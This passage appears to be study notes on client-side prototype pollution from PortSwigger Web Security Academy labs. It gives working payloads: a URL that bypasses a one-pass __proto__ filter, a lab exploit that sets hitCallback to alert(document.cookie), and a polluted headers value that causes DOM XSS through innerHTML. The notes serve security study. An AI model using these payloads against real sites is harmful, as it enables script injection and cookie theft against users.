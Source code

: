 In the url we can do:
```bash
/?__pro__proto__to__[transport_url]=data%3A%2Calert%281%29
```

Because the sanitization just strips the string `__proto__` without repeating this process more than once

### PRACTITIONER Lab: Client-side prototype pollution in third-party libraries
Use DOM invader to solve the lab

Exploit for the victim:
```bash
<script>
    location.href = 'https://labid.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)'
</script>
```

### Prototype pollution via browser APIs
### Prototype pollution via fetch()
The following is an example of how you might send a POST request using fetch():
```bash
fetch('https://normal-website.com/my-account/change-email', {
    method: 'POST',
    body: 'user=carlos&email=carlos%40ginandjuice.shop'
})
```
As you can see, we've explicitly defined method and body properties, but there are a number of other possible properties that we've left undefined. In this case, if an attacker can find a suitable source, they could potentially pollute Object.prototype with their own headers property. This may then be inherited by the options object passed into fetch() and subsequently used to generate the request. 

This can lead to a number of issues. For example, the following code is potentially vulnerable to DOM XSS via prototype pollution:
```bash
fetch('/my-products.json',{method:"GET"})
    .then((response) => response.json())
    .then((data) => {
        let username = data['x-username'];
        let message = document.querySelector('.message');
        if(username) {
            message.innerHTML = `My products. Logged in as <b>${username}</b>`;
        }
        let productList = document.querySelector('ul.products');
        for(let product of data) {
            let product = document.createElement('li');
            product.append(product.name);
            productList.append(product);
        }
    })
    .catch(console.error);
```
 To exploit this, an attacker could pollute Object.prototype with a headers property containing a malicious x-username header as follows:
```bash
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>
```
Let's assume that server-side, this header is used to set the value of the x-username property in the returned JSON file. In the vulnerable client-side code above, this is then assigned to the username variable, which is later passed into the innerHTML sink, resulting in DOM XSS. 

